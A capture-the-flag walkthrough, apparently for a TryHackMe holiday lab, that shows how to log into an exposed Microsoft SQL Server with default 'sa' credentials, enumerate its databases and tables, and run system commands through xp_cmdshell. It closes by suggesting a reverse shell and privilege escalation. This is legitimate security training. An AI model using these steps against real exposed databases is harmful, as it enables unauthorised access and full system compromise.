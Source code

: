 # Day 11

What is it with elf parents naming their kids after job titles these days?

> McDatabaseAdmin came rushing into the room and cried to McSkidy, “We’ve been locked out of the reindeer schedule - how will Santa’s transportation work for Christmas?” The grinch has locked McDatabaseAdmin of his system. You need to probe the external surface of the server to see if you get him his access back.

What if they wanted to be an artist instead?

We've already covered databases a little bit but let's summarise: a database is a collection of bits of information, labelled and categorised and often related to each other. A common example is a database for a website. It'd include at least two tables: users and posts. The user table would have a column for each user that would look something like:

```
ID      USERNAME    PASSWORD        EMAIL
1       jakec       S3cur3P4ss      borngorgeous@jakec.net
```

And then if the website needed to, say, populate the info on your profile page, it'd go "Hey, get me all the info in the users table where the username is 'jakec'." That'd usually look something like this:

```
SELECT * FROM users WHERE username = "jakec";
```

There are a few different database software packages. We dealt with MongoDB on Day 7 talking about non-relational databases. Today we're dealing with relational database software developed by Microsoft. We're also dealing with a catastrophic mistake: usually, databases are only accessible from inside the server itself; you have to already have access to the server and ideally, present it with a unique set of credentials. Sometimes though, databases are exposed to the rest of the network (or worse, the public internet) and we can use them to get access to the server instead.

> There is an open port related to MS SQL Server accessible over the network. What is the port number?

Running a port scan, we can see port 1433 is open.

![](../aoc3/day11/scan.png)

Microsoft SQL Server is exposed on the network. Now the task wants us to connect to the database using McDBA's credentials:

```
sqsh -S 10.10.154.41 -U sa -P t7uLKzddQzVjVFJp
```

"sa" is the default MSSQL username. But just look at that password. MMM! Delicious.

We're told the database we need to check is called "reindeer", but if this was total black box, how would we find out?

![](../aoc3/day11/mssql1.png)

```
1> select name from master.sys.databases;
2> go
```

This prints out the database names:

```
master
tempdb
model
msdb
reindeer
```

The first four are default MSSQL databases. "reindeer" is the only new one.

Now let's see which tables are inside "reindeer":

```
1> select table_name from reindeer.information_schema.tables where table_type = 'base table';
2> go
```

We get:

```
names
presents
schedule
```

If you're following the TryHackMe walkthrough you can skip those steps, but when actually pentesting an MSSQL database, these steps are essential parts of the process. Let's learn 'em whenever we get an opportunity.

Now let's list out the reindeer names:

```
1> select * from reindeer.dbo.names;
2> go
```

![](../aoc3/day11/names.png)

> We can see four columns in the table displayed above: id, first (name), last (name), and nickname. What is the first name of the reindeer of id 9?

It's our buddy Rudolph.

> Check the table schedule. What is the destination of the trip scheduled on December 7?

```
1> select * from reindeer.dbo.schedule;
2> go
```

![](../aoc3/day11/schedule.png)

One of the main settings for Vin Diesel vehicle xXx, it's Prague.

> Check the table presents. What is the quantity available for the present “Power Bank”?

```
1> select * from reindeer.dbo.presents;
2> go
```

![](../aoc3/day11/presents.png)

25000; that's a lot of people worried about their phone dying in the middle of the day. But not as many people looking for a THM subscription, wow.

So by itself, sure, getting some info out of the database _could_ be pretty useful for an attacker. But it's not truly catastrophic, right? What if the database doesn't have anything useful in it?

Well, MSSQL has a function that allows you to run shell commands on the machine straight out of the MSSQL terminal. So you don't have to log out of MSSQL to move a file or check inside a folder. You can do this like:

```
xp_cmdshell '[command]';
go
```

If we run:

```
1> xp_cmdshell 'whoami';
2> go
```

It tells us the Windows account running the MSSQL server:

```
nt service\mssqlserver
```

And if you can run system commands, you can probably upload a reverse shell and attempt to escalate from there, turning a simple database into full system compromise.
